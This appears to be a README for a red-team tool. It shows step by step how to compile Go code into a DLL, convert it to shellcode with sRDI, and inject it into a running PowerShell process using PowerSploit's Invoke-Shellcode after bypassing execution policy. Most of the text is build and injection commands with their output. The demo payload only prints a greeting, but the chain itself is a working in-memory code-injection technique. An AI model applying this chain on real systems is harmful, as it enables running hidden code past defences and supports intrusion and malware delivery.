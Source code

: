 # DLL shellcode from GO

Generate two files, an archive file called `dllshellcode.a` and an associated header file called `dllshellcode.h`.

```sh
$ go build -buildmode=c-archive
```

Build a DLL from the C code.

```sh
$ gcc -shared -pthread -o x.dll scratch.c dllshellcode.a -lWinMM -lntdll -lWS2_32
```

To convert our DLL into shellcode, we’ll use [sRDI](https://github.com/monoxgas/sRDI/), an excellent utility that has a ton of functionality. From the sRDI directory, execute a python3 shell. Use the following code to generate a hash of the exported function:

```python
> from ShellCodeRDI import *; HashFunctionName('Start')
1168596138
```

The sRDI tools will use the hash to identify a function from the shellcode we’ll generate later.

Next, we’ll leverage PowerShell utilities to generate and execute shellcode. For convenience, we will use some utilities from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/).

```powershell
c:\tools\PowerSploit\CodeExecution> powershell.exe -exec bypass
PS C:\tools\PowerSploit\CodeExecution> Import-Module .\Invoke-Shellcode.ps1
PS C:\tools\PowerSploit\CodeExecution> cd ..\..\sRDI
PS C:\tools\sRDI> cd .\PowerShell\
PS C:\tools\sRDI\PowerShell> Import-Module .\ConvertTo-Shellcode.ps1
```

With both modules imported, we can use `ConvertTo-Shellcode` from sRDI to generate shellcode from the DLL, and then pass this into `Invoke-Shellcode` from PowerSploit to demonstrate the injection. Once this executes, you should observe your Go code executing:

```powershell
PS C:\tools\sRDI\PowerShell> Invoke-Shellcode -Shellcode (ConvertTo-Shellcode -File C:\Users\tom\Downloads\x.dll -FunctionHash 1168596138)

Injecting shellcode into the running PowerShell process!
Do you wish to carry out your evil plans?
[Y] Yes [N] No [S] Suspend [?] Help (default is "Y"): Y
YO FROM GO
```
